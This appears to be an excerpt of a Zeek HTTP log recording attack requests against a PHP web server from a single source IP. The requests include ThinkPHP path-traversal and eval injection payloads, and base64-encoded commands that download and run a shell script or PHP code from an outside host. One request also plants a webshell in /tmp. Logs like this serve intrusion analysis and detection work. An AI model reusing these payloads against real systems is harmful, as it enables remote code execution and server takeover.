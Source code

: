 ````log
1706997785.458628	CnC26R3duTP6Gzuy9e	45.95.147.236	45492	172.31.5.68	80	3	GET	54.67.87.80:80	/index.php?s=index/index/index/think_lang/../../extend/pearcmd/pearcmd/index&cmd=echo${IFS}bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly85My4xMjMuMzkuNzYvaHVqLnNoIC1PLSB8IHNoOyBjdXJsIGh0dHA6Ly85My4xMjMuMzkuNzYvaHVqLnNoIHwgc2g=|base64${IFS}-d|sh	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	FJgHqL3DQs6uGEjGlg	-	text/html	-	/index.php?s,cmd
1706997785.625102	CnC26R3duTP6Gzuy9e	45.95.147.236	45492	172.31.5.68	80	4	GET	54.67.87.80:80	/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=eval&vars[1][]='eval(base64_decode("aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpKTt9ZWxzZXskaD1jdXJsX2luaXQoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpO2N1cmxfc2V0b3B0KCRoLENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsMSk7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9IRUFERVIsMCk7ZXZhbChjdXJsX2V4ZWMoJGgpKTtjdXJsX2Nsb3NlKCRoKTt9"));'	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	0	400	Bad Request	-	-	(empty)	-	-	-	-	-	-	-	-	-	-	/index.php?s,function,vars[0],vars[1][]
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2024-02-04-13-38-50
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types	cookie_vars	uri_vars
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
1707063704.951286	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	1	GET	54.67.87.80:80	/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?eval(base64_decode('aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpKTt9ZWxzZXskaD1jdXJsX2luaXQoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpO2N1cmxfc2V0b3B0KCRoLENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsMSk7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9IRUFERVIsMCk7ZXZhbChjdXJsX2V4ZWMoJGgpKTtjdXJsX2Nsb3NlKCRoKTt9'));?>+/tmp/index.php	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	F3A3HIjkQYH6OMyK7	-	text/html	-	/index.php?lang,+config-create+/,/<?eval(base64_decode('aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpKTt9ZWxzZXskaD1jdXJsX2luaXQoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpO2N1cmxfc2V0b3B0KCRoLENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsMSk7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9IRUFERVIsMCk7ZXZhbChjdXJsX2V4ZWMoJGgpKTtjdXJsX2Nsb3NlKCRoKTt9'));?>+/tmp/index.php
1707063705.115238	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	2	GET	54.67.87.80:80	/index.php?lang=../../../../../../../../tmp/index	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	FbyNLg1OYx7BTkAed7	-	text/html	-	/index.php?lang
1707063705.282616	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	3	GET	54.67.87.80:80	/index.php?s=index/index/index/think_lang/../../extend/pearcmd/pearcmd/index&cmd=echo${IFS}bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly85My4xMjMuMzkuNzYvaHVqLnNoIC1PLSB8IHNoOyBjdXJsIGh0dHA6Ly85My4xMjMuMzkuNzYvaHVqLnNoIHwgc2g=|base64${IFS}-d|sh	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	Fixhn74v4kntbaUb3	-	text/html	-	/index.php?s,cmd
1707063705.458933	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	4	GET	54.67.87.80:80	/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=eval&vars[1][]='eval(base64_decode("aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpKTt9ZWxzZXskaD1jdXJsX2luaXQoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpO2N1cmxfc2V0b3B0KCRoLENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsMSk7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9IRUFERVIsMCk7ZXZhbChjdXJsX2V4ZWMoJGgpKTtjdXJsX2Nsb3NlKCRoKTt9"));'	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	0	400	Bad Request	-	-	(empty)	-	-	-	-	-	-	-	-	-	-	/index.php?s,function,vars[0],vars[1][]

````
